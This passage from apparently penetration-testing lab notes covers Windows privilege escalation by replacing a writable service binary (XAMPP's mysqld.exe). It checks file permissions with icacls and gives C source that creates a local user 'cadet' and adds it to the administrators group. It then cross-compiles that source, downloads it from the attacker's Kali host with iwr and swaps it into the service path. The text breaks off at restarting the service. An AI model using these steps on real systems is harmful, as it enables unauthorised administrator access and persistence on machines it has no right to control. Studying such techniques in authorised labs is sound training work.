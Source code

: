 Result: Read and Execute 

```
C:\xampp\apache\bin\httpd.exe BUILTIN\Administrators:(F)
                              NT AUTHORITY\SYSTEM:(F)
                              BUILTIN\Users:(RX)
                              NT AUTHORITY\Authenticated Users:(RX)
```

dave is only in the _Users_ group and only has _Read and Execute_ (RX) rights. We can't replace the file with malicious binary.

Permissions of _mysqld.exe_ form mysql service

`icacls "C:\xampp\mysql\bin\mysqld.exe"`

Result: Full access

`BUILTIN\Users:(F)`

We can replace this binary. 

Generating our binary to replace mysqld.exe

adduser.c code
```C
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user cadet password1! /add");
  i = system ("net localgroup administrators cadet /add");
  
  return 0;
}
```

Cross-compile using #mingw-64 to 64-bit app

`x86_64-w64-mingw32-gcc adduser.c -o adduser.exe`

Transfer to target:

Start #pythonhttpserver 

Use #iwr to download the file from kali

`iwr -uri http://192.168.48.3/adduser.exe -Outfile adduser.exe`

Move original `mysqld.exe` to our home folder

`move C:\xampp\mysql\bin\mysqld.exe mysqld.exe`

Move malicious binary in

`move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe`

Attempting to stop the service in order to restart it
